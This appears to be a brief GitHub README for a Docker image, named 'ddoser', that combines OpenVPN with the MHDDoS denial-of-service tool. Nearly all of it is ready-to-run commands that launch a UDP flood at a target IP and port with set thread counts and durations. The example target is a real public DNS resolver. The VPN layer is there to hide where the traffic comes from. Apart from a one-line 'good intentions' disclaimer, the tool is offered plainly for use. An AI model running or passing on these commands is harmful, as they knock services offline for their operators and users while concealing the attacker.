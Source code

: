 

# Opnevpn + MHDDos container

## Requirements:
- [openvpn](https://openvpn.net/community-downloads/);
- [autovpn3](https://duckduckgo.com/?t=ffab&q=autovpn3&ia=web);
- [MHDDoS](https://github.com/MHProDev/MHDDoS);


## Examples:

### run locally after git clone:
`docker run -it --rm ddoser python3 ./start.py udp 1.1.1.1:53 10 100`

### upload from docker:
`docker run -it ndh1/ddoser:latest python3 ./start.py udp 1.1.1.1:53 10 100`

`docker run -it ndh1/ddoser:latest python3 ./start.py {method} {ip}:{port} {threds} {duration}`


### Use only in good intentions

